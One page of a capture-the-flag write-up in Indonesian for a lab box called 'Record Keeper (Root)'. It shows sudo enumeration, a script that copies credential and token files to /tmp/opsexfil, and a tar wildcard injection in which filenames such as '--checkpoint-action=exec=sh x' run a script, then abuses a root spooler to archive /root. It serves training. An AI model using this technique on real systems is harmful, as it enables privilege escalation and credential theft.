

# Record Keeper (Root) — Langkah exploit

[← Overview](16-record-keeper-root.md) · [Index](index.md)

> **Langkah 6/10 — Langkah exploit.** [REKONSTRUKSI] Script x di bawah merekonstruksi aksi yang dicatat di notes: copy kredensial, tulis job, tunggu arsip, copy arsip ke /tmp/opsexfil.
>
> **Titik penting:** sudo -n -l · sudo -n -u ops /usr/local/bin/record-archive /tmp/tarinj · (ops) NOPASSWD: /usr/local/bin/record-archive
>
> **Berikutnya:** [Output](16-record-keeper-root-07-output.md)

## 3.2 Langkah exploit

#### a) Enumerasi dari shell node

```bash
id
sudo -n -l
cat /usr/local/bin/record-archive
ls -l /etc/nexus
ls -ld /srv/record-spool /var/backups/records
cat /app/src/spooler.js
```

Temuan:

```text
(ops) NOPASSWD: /usr/local/bin/record-archive
cd "$target"; tar -czf "$out" *
/etc/nexus/ops.creds   root:ops 0640
/etc/nexus/spool.token root:ops 0640
/srv/record-spool      writable oleh group ops
spooler.js             root, consume *.job tiap 2 detik
```

#### b) Siapkan payload tar

`[REKONSTRUKSI]` Script `x` di bawah merekonstruksi aksi yang dicatat di
notes: copy kredensial, tulis job, tunggu arsip, copy arsip ke
`/tmp/opsexfil`.

```bash
mkdir -p /tmp/tarinj
cd /tmp/tarinj

cat > x <<'SH'
#!/bin/sh
mkdir -p /tmp/opsexfil
cp /etc/nexus/ops.creds  /tmp/opsexfil/ 2>/dev/null
cp /etc/nexus/spool.token /tmp/opsexfil/ 2>/dev/null

cat > /srv/record-spool/rootarc.job <<'JOB'
id=rootarc
action=archive
target=/root
JOB

for i in $(seq 1 20); do
  [ -f /var/backups/records/rootarc.tar.gz ] && break
  sleep 1
done

cp /var/backups/records/rootarc.tar.gz /tmp/opsexfil/ 2>/dev/null
chmod -R 777 /tmp/opsexfil
SH

chmod +x x

# Dua file dengan nama opsi tar
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh x'
```

#### c) Trigger wrapper sebagai ops

```bash
sudo -n -u ops /usr/local/bin/record-archive /tmp/tarinj
```

Di dalam wrapper, `cd "$target"` masuk ke `/tmp/tarinj`, lalu `tar -czf "$out" *`
membaca `--checkpoint=1` dan `--checkpoint-action=exec=sh x` sebagai opsi.
Tar mengeksekusi `sh x` sebagai `ops`.

#### d) Tunggu spooler root

Spooler memindai `/srv/record-spool/*.job` setiap 2 detik. Job:

```text
id=rootarc
action=archive
target=/root
```

menghasilkan:

```text
/var/backups/records/rootarc.tar.gz
```

Script `x` menyalin arsip itu ke `/tmp/opsexfil/`.

#### e) Ekstrak root flag

```bash
tar -xOzf /tmp/opsexfil/rootarc.tar.gz ./root.txt
```

### Evidence langkah ini



*Terminal evidence — `03-tar-checkpoint.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-tar-checkpoint.txt`](assets/record-keeper-root/03-tar-checkpoint.txt)
